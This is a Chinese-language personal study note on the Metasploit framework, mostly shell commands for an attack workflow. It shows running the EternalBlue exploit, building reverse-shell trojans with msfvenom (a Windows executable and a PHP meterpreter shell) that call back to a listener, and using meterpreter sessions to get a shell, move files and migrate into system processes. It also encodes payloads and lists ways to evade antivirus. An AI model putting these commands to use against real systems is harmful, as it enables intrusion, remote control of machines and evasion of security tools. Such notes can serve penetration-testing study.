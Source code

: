```yaml
---
title: 19.msf
description: msf渗透框架
published: 1
date: 2023-05-05T11:56:03.737Z
tags: web safe, msf
editor: markdown
dateCreated: 2023-04-19T17:46:07.123Z
---
```


<center>msf</center>



[toc]



## Msf

> metasploit 渗透测试框架 [msf](https://github.com/rapid7/metasploit-framework)
>
> pro功能强大



### 1.使用

```shell
# docker
docker pull metasploitframework/metasploit-framework
docker run -it -p 443:433 d4
# msfconsole
msfconsole

# 查看能使用的漏洞
show exploits

# 搜索
search xxx

# 使用 有规律的
use exploit/windows/smb/ms17_010_eternalblue

# 攻击载荷
show payloads

# 攻击信息
show options
set payload <name>
set lhost <host>
set rhost <host>

# 攻击
exploit/run

# 信息
show info
show tagets
# 检查 不能直接打死别人
check
```

> [msf17010](https://www.codenong.com/cs106870256/)

### 2.木马工具

> msfvenom 木马生成工具

```shell
# 生成木马 -p pyloads -LHOST 主机 -LPORT -f 文件类型
msfvenom -p windows/x64/vncinject/reverse_winhttp LHOST=192.168.1.13 LPORT=888 -f exe > ~/Desktop/shell.exe 


# msfconsole 使用木马监听模块
use exploit/multi/handler
set LHOST 192.168.1.13 
set LPORT 888

# 生成php木马  raw 源码    elf linux格式
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.13 LPORT=888 -f raw > shell.php

# 查看payload
msfvenom -l payload

# 查看代码混淆 -e
msfvenom -l encoders
# 生成文件格式 -f
msfvenom --list format
```



### 3. 会话

> meterpreter 管理木马 
>
> 逆向工具[csdn](https://blog.csdn.net/qq_20031585/article/details/125865535) 
>
> [ghidra](https://github.com/NationalSecurityAgency/ghidra)

```shell
help #帮助文档

# 使用 msf17_010永恒之蓝攻击win7

# 上传下载  那大文件这么办呢
upload/download

# 获取shell  乱码：chcp 65001
shell

# 搜索/编辑 文件
search/edit

# 端口转发
portfwd 

# 进程迁移 我们的木马进程注入到系统进程中
migrate

```



### 4. 木马混淆

> encoders 木马混淆

```shell
# 混淆代码 -e
msfvenom -l encoders 

msfvenom -p windows/x64/vncinject/reverse_winhttp -e x64/zutto_dekiru  LHOST=192.168.1.13 LPORT=888 -f exe  > ~/Desktop/shell.exe
```

>  如何免杀：防止杀软杀了我们
>
>  我们木马混淆就是免杀

```shell
# 一般二进制选手看杀软为何杀我们(了解工作流)
修改文件md5
    1. 添加无效数据(了解pe结构)
    2. 修改资源表
    3. 修改字符串
    4. 修改体积
修改指令(代码)
修改执行流程(加壳)
修改源码
```



### 5.流程

1. 找目标存在的漏洞
2. 使用该漏洞
3. 设置payload
4. 攻击













